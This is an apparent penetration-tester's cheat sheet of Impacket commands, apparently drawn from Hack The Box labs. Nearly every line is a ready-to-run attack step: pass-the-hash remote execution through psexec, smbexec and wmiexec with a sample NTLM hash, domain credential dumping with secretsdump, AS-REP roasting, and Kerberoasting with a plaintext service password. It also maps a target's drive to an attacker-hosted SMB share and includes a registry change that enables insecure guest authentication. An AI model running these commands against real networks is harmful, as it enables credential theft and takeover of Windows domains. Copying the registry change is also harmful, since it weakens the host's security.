 # Impacket Tools

## Impacket SMBServer
```
$sudo python3 impacket-smbserver -u <username> -p <password> <name of share> <location of share>
$sudo python3 impacket-smbserver -smb2support -u <username> -p <password> <name of share> <location of share>
$sudo impacket-smbserver -smb2support <name of share> `pwd`
$sudo python3 smbserver.py -smb2support files $(pwd) -username test -password test

Sample Usage: $python3 impacket-smbserver -u myusername -p secretpassword myshare $(pwd)
Tip: use $(pwd) for the current working  directory
```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

## PSExec
```
[Sample Usage] python3 psexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 psexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 psexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## SMBExec
```
[Sample Usage] python3 smbexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 smbexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 smbexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## WMIExec
```
[Sample Usage] python3 wmiexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python wmiexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python wmiexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## MSSQLClient
```
$python3 mssqlclient.py -port 1433 -db volume -windows-auth <username>@<ip address>
```

## WMIExec
```
$python3 wmiexec.py <username@hostname>
$python3 wmiexec.py <username:password@hostname>
```

## LookupSID
```
$python3 lookupsid.py <domain/username@hostname>
$python3 lookupsid.py <domain/username:password@hostname>
```

## SecretsDumping
```
python secretsdump.py htb.local/Administrator@reel.htb.local (enter password when prompted)
```

## Windows 10 SMBShare Can Connect
[URL](https://www.youtube.com/watch?v=vyatMj1Z2NQ)
```
Regedit
Browse to: Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
Create a DWORD 32bit key: AllowInsecureGuestAuth and set to 1 for on, 0 for off
```

## GetNPUSers
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```
python GetNPUsers.py htb.local/ -no-pass -usersfile domain_users.txt -format hashcat
```

## Kerberoasting
Query Domain for any Kerberoastable Users
```
python GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178
```

## Kerberoast (request ticket)
Request ticket for account
```
python GetUserSPNs.py ACTIVE.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178 -request -outfile user-spn.hash
```
